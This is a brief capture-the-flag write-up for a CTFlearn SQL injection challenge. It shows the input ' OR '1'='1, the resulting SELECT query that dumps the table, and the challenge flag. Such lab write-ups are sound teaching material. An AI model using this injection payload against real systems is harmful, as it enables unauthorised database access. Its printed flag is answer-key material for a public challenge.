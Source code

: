 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/)
> Don't know where to begin? Check out CTFlearn's [SQL Injection Lab](https://ctflearn.com/lab/sql-injection-part-1)

The website takes user input and puts it in an SQL query.

![1](https://github.com/Knign/Write-ups/assets/110326359/f98b874a-d191-472b-bc05-adbab942fe19)

We want our input to be such that the query's login is true.
```
' OR '1'='1
```
The input will cause the SQL query to look as follows:
```
SELECT * FROM webfour.webfour where name = '' OR '1'='1'
```
As the `name` field is blank and 1 is always equal to 1, the entire database is leaked.

![2](https://github.com/Knign/Write-ups/assets/110326359/a1325124-e3f5-4177-ac03-287a7aab2cec)

## Flag
```
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
```
